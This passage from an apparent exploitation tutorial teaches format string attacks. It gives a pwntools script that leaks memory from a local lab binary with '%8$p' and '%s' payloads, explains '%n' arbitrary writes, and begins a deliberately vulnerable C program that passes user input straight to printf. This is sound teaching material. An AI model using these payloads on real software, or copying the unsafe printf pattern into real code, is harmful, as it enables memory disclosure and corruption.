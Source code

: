 ```python
from pwn import *

p = process('./vuln')

payload = b'%8$p||||'
payload += p32(0x8048000)

p.sendline(payload)
log.info(p.clean())
```

Let's break down the payload:

- We add 4 `|` because we want the address we write to fill one memory address, not half of one and half another, because that will result in reading the wrong address
- The offset is `%8$p` because the start of the buffer is generally at `%6$p`. However, memory addresses are 4 bytes long each and we already have 8 bytes, so it's two memory addresses further along at `%8$p`. 

```bash
$ python3 exploit.py

[+] Starting local process './vuln': pid 3255
[*] b'0x8048000||||'
```

> It still stops at the null byte, but that's not important because we get the output; the address is still written to memory, just not printed back.

Now let's replace the `p` with an `s`.

```bash
$ python3 exploit.py

[+] Starting local process './vuln': pid 3326
[*] b'\x7fELF\x01\x01\x01||||'
```

Of course, `%s` will **also** stop at a null byte as strings in C are terminated with them. We have worked out, however, that the first bytes of an ELF file up to a null byte is `\x7fELF\x01\x01\x01`.

### Arbitrary Writes

Luckily C contains a rarely-used format specifier `%n`. This specifier takes in a pointer (memory address) and writes there the *number of characters written so far*. If we can control the input, we can control how many characters are written and also where we write them.

Obviously, there is a *small* flaw - to write, say, `0x8048000` to a memory address, we would have to write that many characters - and generally buffers aren't quite that big. Luckily there are other format string specifiers for that. I fully recommend you watch [this video](https://www.youtube.com/watch?v=t1LH9D5cuK4) to completely understand it, but let's jump into a basic binary.

[fmtstr_arb_write](../assets/fmtstr_arb_write.zip)

```c
#include <stdio.h>

int auth = 0;

int main() {
    char password[100];

    puts("Password: ");
    fgets(password, sizeof password, stdin);
    
    printf(password);
    printf("Auth is %i\n", auth);

```